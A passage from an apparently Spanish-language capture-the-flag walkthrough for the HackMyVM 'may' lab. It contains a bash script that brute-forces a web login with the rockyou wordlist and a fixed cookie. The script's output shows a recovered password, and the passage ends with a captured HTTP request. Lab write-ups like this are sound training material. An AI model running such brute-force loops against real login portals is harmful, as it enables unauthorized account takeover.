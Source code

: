 Vemos que se esta utilizando una `Cookie` por lo que vamos a crear el script de esta forma:

> forceWeb.sh

```bash
#!/bin/bash

while read pass; do
  resp=$(curl -s -i -X POST http://portal.may.hmv/check.php \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -H "Cookie: Sweetcookie=HMVHMXHMVHMXHMVHMXHMVHMX" \
    -d "user=marie&password=$pass")
  
  # Verifica si la respuesta contiene el mensaje de "user/pass incorrect."
  echo "$resp" | grep -q "user/pass incorrect." || echo "[+] Found: marie:$pass"
done < /usr/share/wordlists/rockyou.txt
```

Vamos a probar con el usuario `marie` si quisieramos con otro cambiamos el campo del `user` por el otro, pero en mi caso probare primero con el usuario `marie`, ahora lo ejecutaremos de la siguiente forma:

```shell
bash forceWeb.sh
```

Info:

```
[+] Found: marie:rebelde
```

Veremos que ha funcionado y hemos encontrado la contraseña de dicho usuario, ahora si entramos con dichas credenciales veremos lo siguiente:

```
Hi marie!Portal is under development too.Come back later
```

## Escalate user marie

No veremos nada interesante, pero si entramos en la que pone `ssh.may.hmv` y metemos las mismas credenciales veremos que no son validas, por lo que vamos a capturar la peticion a ver que esta pasando y veremos esto:

```
POST /check.php HTTP/1.1
Host: ssh.may.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://ssh.may.hmv
Connection: keep-alive
Referer: http://ssh.may.hmv/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user=marie&password=rebelde
```
